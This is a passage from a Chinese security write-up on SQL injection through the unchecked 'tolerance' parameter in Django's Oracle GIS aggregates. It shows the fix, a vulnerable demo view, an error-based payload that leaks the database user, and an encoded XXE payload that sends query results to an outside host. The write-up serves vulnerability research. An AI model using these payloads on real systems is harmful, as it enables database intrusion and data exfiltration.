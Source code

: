 该注入的修复也很简单，直接判断 `tolerance` 是否为数字即可：

```python
tolerance = Value(self._handle_param(
    self.extra.get('tolerance', self.tolerance),
    'tolerance',
    NUMERIC_TYPES,
))
```

## 漏洞2

另一段有漏洞的函数为：

```python
def vuln2(request):
    query = request.GET.get('q', default=0.05)
    qs = Collection2.objects.aggregate(
            Union('point', tolerance=query),
    ).values()

    return HttpResponse(qs)
```

这边的 SQL 查询语句为：

```sql
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT", 0.05))) AS "POINT__UNION" FROM "APP_CITY";
```

查看 https://github.com/django/django/blob/335c9c94acf263901fb023404408880245b0c4b4/django/contrib/gis/db/models/aggregates.py，可以看到有：

```python
def as_oracle(self, compiler, connection, **extra_context):
    tolerance = self.extra.get('tolerance') or getattr(self, 'tolerance', 0.05)
    template = None if self.is_extent else '%(function)s(SDOAGGRTYPE(%(expressions)s,%(tolerance)s))'
    return self.as_sql(compiler, connection, template=template, tolerance=tolerance, **extra_context)
```

这里，`tolerance` 同样没有检查就用于 SQL 查询。

同样的，我们可以使用报错注入：`?q=20))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`，那么查询就变成了：

```sql
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT", 20))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --))) AS "POINT__UNION" FROM "APP_CITY";
```

由此得到了数据库用户名。

考虑到 oracle 的版本，漏洞 1（漏洞 2 类似）还可以利用 Oracle XXE 漏洞（CVE-2014-6577） 注入构造的恶意 xml：`?q=20) = 1 OR (select extractvalue(xmltype('%3C%3Fxml version%3D%221.0%22 encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE root %5B %3C!ENTITY %25%25%25%25 remote SYSTEM %22http%3A%2F%2Fhost.docker.internal%3A9000%2F'%7C%7C(SELECT  utl_inaddr.get_host_name() from dual)%7C%7C'%22%3E %25%25%25%25remote%3B%5D%3E')%2C'%2Fl') from dual) is not null OR (1%2B1`。
